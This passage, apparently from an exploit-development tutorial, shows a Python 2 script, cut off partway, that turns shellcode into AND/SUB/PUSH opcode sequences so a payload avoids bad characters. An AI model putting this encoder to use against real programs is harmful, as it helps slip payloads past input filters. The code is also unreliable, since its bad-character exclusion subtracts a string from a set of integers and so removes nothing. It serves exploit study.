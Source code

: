 We also update the script to output shellcode instead of nasm, since it will
make the next step less complicated.
```
#!/usr/bin/env python
import sys

a_int = sorted(list(set(range(1, 255)) - set(['\x0a'])))

def findCombo(dword, three=False):
    global a_int
    
    group = "{:08x}".format(dword)
    if all([ (int(group[i:i+2], 16) in a_int) for i in range(0, len(group), 2) ]):
        return None

    matches = []
    carry = 0
    for x in range(0, 4):
        byte = (dword - (carry)) % 256

        found = False
        l = [(f1, f2) for f1 in a_int for f2 in a_int]
        if three:
            l = [(f1, f2, f3) for f1 in a_int for f2 in a_int for f3 in a_int]

        for i in l:
            if not found and (sum(i) % 256) == byte and len(set(i) - set(a_int)) == 0:
                found = True
                carry = (sum(i) >= 0x100)
                matches.append(i)
        dword >>= 8
    return matches

def main():
    if len(sys.argv) != 2:
        return 1

    args = ["{:02x}".format(ord(a)) for a in sys.argv[1][::-1]]
    chars = [args[i * 4:(i + 1) * 4] for i in range((len(args) + 4 - 1) // 4 )] 
    chars = ["".join(c) for c in chars]

    for group in chars:
        group += ('47' * (4 - (len(group)/2)))
        g = int(group, 16)
        ffg = int('ffffffff', 16) - g + 1
        ffg_h = "0x{:08x}".format(ffg)

        c = findCombo(ffg)
        if c is None:
            hg = "{:08x}".format(g)
            print "68{0}".format("".join([ hg[i:i+2] for i in range(len(hg)-2, -1, -2)]))

        else:
            f = ["".join(["{:02x}".format(j) for j in list(i)]) for i in zip(*c[::-1])]
            f_sum = "0x{:08x}".format(sum([int(i, 16) for i in f]) % (2**32))
            if (ffg_h != f_sum):
                c = findCombo(ffg, True)
                f = ["".join(["{:02x}".format(j) for j in list(i)]) for i in zip(*c[::-1])]
                f_sum = "0x{:08x}".format(sum([int(i, 16) for i in f]) % (2**32))

                if(ffg_h != f_sum):
                    print ("# {0} -> {1}".format(ffg_h, f_sum))
            clear = ["25{0}".format(i) for i in ("554e4d4a", "2a313235")]
            sub   = ["2d{0}".format(j) for j in f]
```